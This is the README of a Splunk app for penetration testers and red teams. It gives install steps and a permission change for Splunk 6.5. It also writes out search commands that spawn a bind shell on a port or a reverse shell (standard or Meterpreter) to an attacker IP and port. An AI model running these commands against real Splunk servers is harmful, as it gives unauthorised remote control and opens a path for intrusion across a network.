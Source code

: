 Splunk Shells App
Version 1.1

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/MrJester/splunk_shells/releases/download/1.0/splunk_shells.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
using each of these shells can be done from the Search and Reporting app. Execute the following searches:

'| bindshell SHELLTYPE PORTNUMBER' 
SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888


'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT' 
SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

ATTACKERIP - Specify the IP that you want to shell to be sent back to. 

ATTACKERPORT - Specify the port you want the shell to be sent back to.
